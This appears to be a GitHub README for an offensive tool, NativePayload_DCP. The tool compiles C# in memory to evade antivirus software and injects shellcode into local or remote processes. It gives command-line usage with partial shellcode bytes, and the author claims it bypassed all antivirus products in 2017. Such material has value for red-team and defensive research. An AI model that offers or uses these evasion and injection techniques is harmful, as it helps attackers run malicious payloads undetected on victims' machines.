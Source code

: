 # NativePayload_DCP

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 


usage:
      
    Syntax: injection into local process
    
    NativePayload_DCP.exe DYN-PAY-ARG "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    
    Syntax: injection into remote process
    
    NativePayload_DCP.exe DYN-TEXT-FILE CHUNK NativePayload_Tinjection.cs TPID "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    NativePayload_DCP.exe DYN-TEXT-FILE Src NativePayload_Tinjection.cs TPID



   ![](https://github.com/DamonMohammadbagher/NativePayload_DCP/blob/main/NativePayload_DCP.png)
